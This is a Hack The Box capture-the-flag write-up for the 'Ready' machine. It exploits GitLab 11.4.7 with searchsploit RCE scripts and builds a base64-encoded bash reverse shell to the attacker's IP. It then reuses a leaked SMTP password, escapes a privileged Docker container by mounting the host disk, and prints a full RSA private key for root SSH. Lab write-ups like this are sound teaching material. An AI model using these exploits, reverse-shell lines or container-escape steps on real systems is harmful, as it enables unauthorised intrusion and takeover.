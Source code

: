```yaml
---
layout: single
title: Ready - Hack The Box
excerpt: "A vulnerable instance of Gitlab to obtain a shell. Mount the host filesystem within the container to access the root flag" 
date: 2022-09-09
classes: wide
header:
  teaser: /assets/images/htb-writeup-ready/ready_logo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
tags:
  - linux
  - gitlab
  - cve
  - docker
  - privileged container
---
```


![](/assets/images/htb-writeup-ready/ready_logo.png)

A vulnerable instance of Gitlab to obtain a shell. Mount the host filesystem within the container to access the root flag


## Portscan

```bash
❯ nmap -sCV -Pn -p22,5080 10.129.227.132 -oN targeted
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
5080/tcp open  http    nginx
| http-robots.txt: 53 disallowed entries (15 shown)
| / /autocomplete/users /search /api /admin /profile 
| /dashboard /projects/new /groups/new /groups/*/edit /users /help 
|_/s/ /snippets/new /snippets/*/edit
|_http-trane-info: Problem with XML parsing of /evox/about
| http-title: Sign in \xC2\xB7 GitLab
|_Requested resource was http://10.129.227.132:5080/users/sign_in
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Gitlab


We don't have credentials to ssh. The webserver on port 5080 runs a Gitlab instance and the robots.txt reveals us different directories.

![](/assets/images/htb-writeup-ready/gitlab1.png)

We have access to create a new account.

![](/assets/images/htb-writeup-ready/gitlab2.png)

There are no projects. What is the version of this instance? 

![](/assets/images/htb-writeup-ready/gitlab3.png)

Another way of find out the version is using the Rest API.
>Log in as any user, select the user icon in the upper right of the screen. Select Settings ==> Access Tokens. Create a personal access token and copy it to your clipboard.
>In a Linux shell, use curl to access the GitLab version
```bash
❯ curl --header "PRIVATE-TOKEN: personal-access-token" your-gitlab-url/api/v4/version
```
>![](/assets/images/htb-writeup-ready/gitlab4.png)
```bash
❯ curl --header "PRIVATE-TOKEN: HXmTosC6DzLDSYQxzvic" 10.129.227.132:5080/api/v4/version | jq '.["version"]'
{"version":"11.4.7"}
```

Now, we have some ways to gain a shell.

Is there any exploit in searchsploit?
```bash
❯ searchsploit gitlab 11.4.7
--------------------------------------------------------------- ---------------------------------
 Exploit Title                                                 |  Path
--------------------------------------------------------------- ---------------------------------
GitLab 11.4.7 - RCE (Authenticated) (2)                        | ruby/webapps/49334.py
GitLab 11.4.7 - Remote Code Execution (Authenticated) (1)      | ruby/webapps/49257.py
```
1. First, let's try the 49257.py changing some variables. The **authenticity_token** is in the source code and the cookie in Developer Tools ==> Storage.
```bash
username='m1l0js'
authenticity_token='4CF1R6b+nvrF3iLVLeGav92Pr6A6QRP2YK0H1+bX9eEpXkubVBpv5azKpfPMysTw6zHNw7AD+xrQ4VtGjXMQRg=='
cookie = '_gitlab_session=34931d1f746491d74a00a4e2a9da29c9; sidebar_collapsed=false'
localport='4126'
localip='10.10.14.72'
url = "http://10.129.227.132:5080"
```
2. Using the other exploit listening in our machine
```bash
❯ python3 49334.py -g http://10.129.227.132 -u m1l0js -p m1l0js123. -l 10.10.14.72 -P 4127
[+] authenticity_token: ME7qmx/qNylY2Vqre+i9CK+oTA+Np0BOZdnnYC8Ggi7QnVyzO42XExPncGEfe5nDP+YDTqUbZpIiyITdczjXQA==
[+] Creating project with random name: project3122
[+] Running Exploit
[+] Exploit completed successfully!
```
3. Searching what has changed in these release. 
>1. Go to [Gitlab releases](https://gitlab.com/gitlab-org/gitlab/-/commits/master)
>2. Date?  ![](/assets/images/htb-writeup-ready/gitlab6.png)
>3. Looking many resources.
In this [github](https://github.com/jas502n/gitlab-SSRF-redis-RCE), there are very useful information. Try to understand it looking in other sites [live overflow](https://liveoverflow.com/gitlab-11-4-7-remote-code-execution-real-world-ctf-2018/) or [infosec](https://infosecwriteups.com/exploiting-redis-through-ssrf-attack-be625682461b)) 
![](/assets/images/htb-writeup-ready/gitlab7.png)
It seems that is not working, maybe we need to use base64. Note that it is necessary add a space wherever you want in the command to encoded correctly.
```bash
❯ echo -n "bash -c 'bash -i >& /dev/tcp/10.10.14.72/5555 0>&1'" | base64
YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC43Mi81NTU1IDA+JjEn
❯ echo -n "bash -c ' bash -i >& /dev/tcp/10.10.14.72/5555 0>&1'" | base64
YmFzaCAtYyAnIGJhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNzIvNTU1NSAwPiYxJw==
```
How can we know if this works? Test it locally. Listen in this port and see if it works.
Let's modify our previous test and gain a shell.
![](/assets/images/htb-writeup-ready/gitlab8.png)


## Privesc

We could enumerate with [deepce](https://github.com/stealthcopter/deepce) or [linpeas.sh](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite). We find in __/opt/backup/gitlab.rb__ file with some SMTP credentials for the gitlab application. 

```bash
cat /opt/backup/gitlab.rb | grep "pass"
gitlab_rails['smtp_password'] = "wW59U!ZKMbG9+*#h"
```

That password is the same password as the root password for the container so we can privesc locally inside it.

```bash
git@gitlab:/opt/backup$ su -
Password: wW59U!ZKMbG9+*#h
root@gitlab:~# 
```
We have gained root access but we are in a container. Check the IP and the __/opt/backup/docker-compose.yml__
```bash
root@gitlab:~# hostname -I
172.19.0.2 
```
```bash
root@gitlab:/opt/backup# cat docker-compose.yml 
    privileged: true
```
We can escape from the container for this parameter configured. Privileged containers can access the host's disk devices so we can just read the root flag after mounting the drive.
```bash
root@gitlab:/# df -h
Filesystem      Size  Used Avail Use% Mounted on
overlay         9.3G  7.7G  1.6G  84% /
tmpfs            64M     0   64M   0% /dev
tmpfs           2.0G     0  2.0G   0% /sys/fs/cgroup
/dev/sda2       9.3G  7.7G  1.6G  84% /root_pass
shm              64M  672K   64M   2% /dev/shm
root@gitlab:/# ls /mnt
root@gitlab:/# mkdir /mnt/sda2FromHostMachineToEscapeTheContainer
root@gitlab:/# mount /dev/sda2 /mnt/sda2FromHostMachineToEscapeTheContainer
root@gitlab:/# cd /mnt/sda2FromHostMachineToEscapeTheContainer/
```

To get a proper shell in the host OS we can use the SSH key in the root's .ssh directoy

```bash
root@gitlab:/mnt/loquesea/root/.ssh# cat id_rsa
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEAvyovfg++zswQT0s4YuKtqxOO6EhG38TR2eUaInSfI1rjH09Q
sle1ivGnwAUrroNAK48LE70Io13DIfE9rxcotDviAIhbBOaqMLbLnfnnCNLApjCn
6KkYjWv+9kj9shzPaN1tNQLc2Rg39pn1mteyvUi2pBfA4ItE05F58WpCgh9KNMlf
YmlPwjeRaqARlkkCgFcHFGyVxd6Rh4ZHNFjABd8JIl+Yaq/pg7t4qPhsiFsMwntX
TBKGe8T4lzyboBNHOh5yUAI3a3Dx3MdoY+qXS/qatKS2Qgh0Ram2LLFxib9hR49W
rG87jLNt/6s06z+Mwf7d/oN8SmCiJx3xHgFzbwIDAQABAoIBACeFZC4uuSbtv011
YqHm9TqSH5BcKPLoMO5YVA/dhmz7xErbzfYg9fJUxXaIWyCIGAMpXoPlJ90GbGof
Ar6pDgw8+RtdFVwtB/BsSipN2PrU/2kcVApgsyfBtQNb0b85/5NRe9tizR/Axwkf
iUxK3bQOTVwdYQ3LHR6US96iNj/KNru1E8WXcsii5F7JiNG8CNgQx3dzve3Jzw5+
lg5bKkywJcG1r4CU/XV7CJH2SEUTmtoEp5LpiA2Bmx9A2ep4AwNr7bd2sBr6x4ab
VYYvjQlf79/ANRXUUxMTJ6w4ov572Sp41gA9bmwI/Er2uLTVQ4OEbpLoXDUDC1Cu
K4ku7QECgYEA5G3RqH9ptsouNmg2H5xGZbG5oSpyYhFVsDad2E4y1BIZSxMayMXL
g7vSV+D/almaACHJgSIrBjY8ZhGMd+kbloPJLRKA9ob8rfxzUvPEWAW81vNqBBi2
3hO044mOPeiqsHM/+RQOW240EszoYKXKqOxzq/SK4bpRtjHsidSJo4ECgYEA1jzy
n20X43ybDMrxFdVDbaA8eo+og6zUqx8IlL7czpMBfzg5NLlYcjRa6Li6Sy8KNbE8
kRznKWApgLnzTkvupk/oYSijSliLHifiVkrtEY0nAtlbGlgmbwnW15lwV+d3Ixi1
KNwMyG+HHZqChNkFtXiyoFaDdNeuoTeAyyfwzu8CgYAo4L40ORjh7Sx38A4/eeff
Kv7dKItvoUqETkHRA6105ghAtxqD82GIIYRy1YDft0kn3OQCh+rLIcmNOna4vq6B
MPQ/bKBHfcCaIiNBJP5uAhjZHpZKRWH0O/KTBXq++XQSP42jNUOceQw4kRLEuOab
dDT/ALQZ0Q3uXODHiZFYAQKBgBBPEXU7e88QhEkkBdhQpNJqmVAHMZ/cf1ALi76v
DOYY4MtLf2dZGLeQ7r66mUvx58gQlvjBB4Pp0x7+iNwUAbXdbWZADrYxKV4BUUSa
bZOheC/KVhoaTcq0KAu/nYLDlxkv31Kd9ccoXlPNmFP+pWWcK5TzIQy7Aos5S2+r
ubQ3AoGBAIvvz5yYJBFJshQbVNY4vp55uzRbKZmlJDvy79MaRHdz+eHry97WhPOv
aKvV8jR1G+70v4GVye79Kk7TL5uWFDFWzVPwVID9QCYJjuDlLBaFDnUOYFZW52gz
vJzok/kcmwcBlGfmRKxlS0O6n9dAiOLY46YdjyS8F8hNPOKX6rCd
-----END RSA PRIVATE KEY-----
```

```bash
ssh -i id_rsa.pem root@10.129.227.132
root@ready:~#
```
